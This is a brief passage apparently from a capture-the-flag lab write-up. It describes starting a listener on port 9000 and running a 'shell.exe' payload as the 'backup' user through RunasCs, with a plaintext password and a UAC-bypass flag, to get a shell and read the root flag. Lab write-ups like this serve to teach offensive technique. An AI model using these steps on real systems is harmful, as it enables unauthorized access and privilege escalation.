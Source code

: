 Start a listener on port 9000 and use `runascs` to run the `shell.exe` payload as `backup` user.
```markdown
> runascs.exe backup xiwPzcjGQJgwQYFBKNphoChSXzPXcUroEDqqjIBF shell.exe -t 8 --bypass-uac
```
A shell for user `backup` is received, which can be used to dump the `root.txt` flag in administrator desktop.
